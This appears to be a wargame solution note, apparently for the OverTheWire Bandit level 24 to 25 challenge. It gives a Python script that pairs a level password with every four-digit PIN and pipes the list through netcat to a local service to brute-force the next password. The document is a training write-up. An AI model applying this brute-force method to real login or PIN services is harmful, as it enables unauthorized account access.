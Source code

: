 # Level 24 -> Level 25

```bash
mktemp -d
cd /tmp/tmp.Kzdx3LRrRY
nano script.py
```

**script.py** code

```python
passwd = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
output = ""

for i in range(0, 10000):
        code = '0' * (4 - len(str(i))) + str(i)
        output += passwd + " " + code + "\n"

open('codes', 'w').write(output)
```

run the script and use netcat to bruteforce

```bash
python3 script.py
cat codes | nc localhost 30002 > output
cat output | grep "bandit25 is"
```

